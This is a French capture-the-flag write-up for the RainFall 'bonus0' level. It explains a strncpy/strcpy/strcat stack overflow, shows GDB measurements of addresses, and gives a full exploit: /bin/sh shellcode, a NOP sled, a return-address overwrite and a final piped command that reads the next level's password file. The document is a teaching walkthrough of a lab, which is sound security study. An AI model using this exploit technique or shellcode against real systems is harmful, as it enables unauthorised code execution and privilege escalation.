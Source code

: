 # RainFall — bonus0 : README Exploit Guide

## 🚀 TL;DR (Résumé en 5 lignes)

- Le programme lit deux lignes (`first`, `last`) et construit `fullname = first + " " + last`
- À cause d'un **mauvais combo `strncpy` + `strcpy` + `strcat`**, `fullname` **déborde** sa taille
- Ce débordement permet d'**écraser l'adresse de retour** (RET) sur la pile
- On **redirige l'exécution** vers un **grand tampon** (4096 o) de `p()` rempli de **NOPs** puis de **shellcode** (`/bin/sh`)
- Sur RainFall : **NX off / aucun canary / pas de PIE / ASLR off** → adresses stables, pile exécutable

---

## 📋 Ce que fait le programme

### Fonction `p(dst, " - ")`
- Lit jusqu'à **4096 octets** dans un **gros buffer local** `buf[4096]` (pile de `p`)
- Remplace `'\n'` par `'\0'`
- **Copie 20 octets max** vers `dst` via `strncpy(dst, buf, 20)`
- ⚠️ Si l'entrée fait **≥ 20 octets**, **`dst` n'est PAS `'\0'`-terminé** (comportement de `strncpy`)

### Fonction `pp(out)`
Appelle **deux fois** `p()` : d'abord `first`, puis `last`

### Fonction `main`
Construit `out` (= `fullname`) :
```c
strcpy(out, first);           // copie jusqu'au premier '\0'
out[strlen(out)] = ' ';
out[strlen(out)+1] = '\0';
strcat(out, last);            // recolle last
```

**Problème :** Si `first` n'a pas de `'\0'` (exactement 20 chars lus), `strcpy(out, first)` lit trop loin (avale le début de `last`). Puis `strcat(out, last)` rajoute `last` une 2ᵉ fois. `out` est trop petit → débordement jusqu'à la RET de `main`.

---

## 💡 Idée de l'exploit

1. **1ʳᵉ ligne :** Remplir le gros buffer `buf[4096]` de `p()` avec beaucoup de NOPs (`\x90`) puis un shellcode (lance `/bin/sh`)

2. **2ᵉ ligne :** Provoquer le débordement et écraser la RET par une adresse au milieu des NOPs → le CPU "glisse" (NOP-sled) vers le shellcode → shell

**Pourquoi ça marche ici ?** NX off, pas de canary, pas de PIE, ASLR off.

---

## 🔍 Où l'overflow se produit

`first` non `'\0'`-terminé (20 octets pile) ⇒ `strcpy(out, first)` continue à lire en mémoire (englobe le début de `last`) jusqu'au prochain `'\0'`.

Puis le code ajoute un espace et concatène `last` une seconde fois :

```
out = first + (début de last) + ' ' + last
```

`out` est trop petit → écriture au-delà → on atteint la RET (adresse de retour) sur la pile.

---

## 🎯 Mesures & adresses (en GDB)

### Adresse du gros buffer `buf[4096]` de `p()`

```bash
gdb ./bonus0
(gdb) set disassembly-flavor intel
(gdb) disass p
# Repère :  lea eax, [ebp-0x1008]   ← début du buffer local
(gdb) b *p+28                        # (dans ce binaire, la 'lea' est à +28)
(gdb) run
(gdb) x $ebp-0x1008
0xbfffe680                            # ← début de buf (exemple réel RainFall)
```

On choisit une adresse-cible au milieu des NOPs :
```
target = 0xbfffe680 + 0x50 = 0xbfffe6d0
```

Little-endian (x86) : `0xbfffe6d0` ⇒ `\xd0\xe6\xff\xbf`

### Offset d'écrasement de la RET (EIP)

Avec un pattern (type Aa0Aa1…) ou des 'A' + 4 'B', on vérifie que l'offset utile est **9** ici :

Le 10ᵉ octet de la 2ᵉ ligne (celle qui déborde) arrive pile sur EIP.

---

## 🛡️ Shellcode & NOP-sled

### Shellcode `/bin/sh` (utilisé sur RainFall)
```
\x31\xc0\x50\x68\x2f\x2f\x73\x68
\x68\x2f\x62\x69\x6e\x89\xe3\x89
\xc1\x89\xc2\xb0\x0b\xcd\x80\x31
\xc0\x40\xcd\x80
```

On le place juste après ~100 NOPs dans la 1ʳᵉ ligne (la NOP-sled).

---

## 🚀 Commande finale (exploit complet)

Avec les adresses mesurées ci-dessus :
- Début buf : `0xbfffe680`
- Cible au milieu des NOPs : `0xbfffe6d0` → `\xd0\xe6\xff\xbf`
- Offset EIP (2ᵉ ligne) : 9

```bash
bonus0@RainFall:~$ (python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'; python -c 'print "A" * 9 + "\xd0\xe6\xff\xbf" + "B" * 7'; cat) | ./bonus0
```

Dans le shell obtenu :
```bash
whoami
cat /home/user/bonus1/.pass
```

### Astuce conversion Little-Endian
```python
python - <<'PY'
import struct
print struct.pack('<I', 0xbfffe6d0)
PY
```

---

## 📊 Schémas explicatifs

### Construction réelle de fullname
```
[first (20 sans '\0')][début de last]   ← strcpy copie trop
[  ' '  ]
[last encore]                            ← strcat ajoute encore
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
              trop long → déborde jusqu'à la RET
```

### Détournement du flux
```
RET écrasée = 0xbfffe6d0  (au milieu des NOPs de buf)
               ↓
   NOP NOP NOP ... SHELLCODE  →  /bin/sh
```

---

## 🔧 Dépannage express

### Segfault immédiat ?
- Reprends l'adresse de buf dans CE run : `x $ebp-0x1008`
- Choisis la cible au milieu des NOPs et vérifie l'endianness (`\xd0\xe6\xff\xbf` pour `0xbfffe6d0`)

### Pas de shell ?
- Augmente la NOP-sled (ex. 200)
- Vérifie que la 2ᵉ ligne écrase EIP à l'offset 9

### Adresses qui "bougent" ?
- Sur RainFall elles sont stables (ASLR off)
- Si variation, re-mesure buf avant d'attaquer

---

## 📚 Vocabulaire (mini glossaire)

- **Pile (stack)** : Variables locales + adresse de retour d'une fonction
- **RET / EIP** : Où le CPU retourne / quelle instruction il exécute. Les écraser → détourner le flux
- **Shellcode** : Petit code machine (ici lance `/bin/sh`)
- **NOP-sled** : Rangée de `\x90` → tolère les erreurs d'adresse
- **NX/ASLR/PIE** : Protections mémoire (ici OFF)

---

## ⚖️ Avertissement légal

Ce document est fourni **uniquement à des fins éducatives** dans le cadre de l'apprentissage de la sécurité informatique. L'utilisation de ces techniques sur des systèmes sans autorisation explicite est **illégale** et peut constituer un délit. L'auteur décline toute responsabilité en cas d'usage malveillant.

---

*Document généré pour l'apprentissage de la sécurité informatique - Utilisez de manière responsable*